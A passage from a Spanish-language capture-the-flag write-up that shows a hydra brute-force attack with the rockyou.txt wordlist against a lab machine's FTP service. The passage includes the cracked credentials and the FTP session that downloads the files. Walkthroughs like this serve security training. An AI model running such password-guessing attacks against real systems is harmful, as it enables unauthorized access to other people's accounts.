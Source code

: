 Iniciar sesión en este servicio corresponde al camino hacia el éxito mas directo, por tanto tiene sentido probar un ataque de fuerza bruta primero con este servicio. Pero en un entorno real este servicio estará fuertemente protegido y monitorizado, por lo que deberíamos de probar en otros lugares primero.

Finalmente, este ataque falla en obtener una contraseña valida en un intervalo de tiempo aceptable.

> Nunca debes realizar un ataque de fuerza bruta, a menos que sea el único camino disponible o hayan grandes indicios de que este es el camino correcto.

### FTP

Al fallar el anterior ataque, esta vez lo intentaremos en el servicio ``FTP``, haciendo uso de la famosa lista de palabras ``rockyou.txt``.

> Si hay indicios de que una contraseña es débil, vale la pena usar listas de palabras conocidas como rockyou.txt (solo en CTFs).

```bash
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt -f -vV 10.10.195.209 ftp
```

<details><summary>Explicación del comando</summary></details>

```text
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt -f -vV 10.10.195.209 ftp

[...]
[21][ftp] host: 10.10.195.209   login: chris   password: crystal
[STATUS] attack finished for 10.10.195.209 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-30 20:05:43
```

Obtenemos la contraseña ``crystal``. Ingresamos al servidor ``FTP`` con estas credenciales y listamos los archivos.

```text
ftp> ls
229 Entering Extended Passive Mode (|||6987|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

El servidor ``FTP`` contiene tres archivos: Dos imágenes y un archivo de texto. Los descargamos de forma recursiva.

```text
ftp> prompt
Interactive mode off.
ftp> mget .
local: To_agentJ.txt remote: To_agentJ.txt
[...]
local: cute-alien.jpg remote: cute-alien.jpg
[...]
local: cutie.png remote: cutie.png
[...]
```
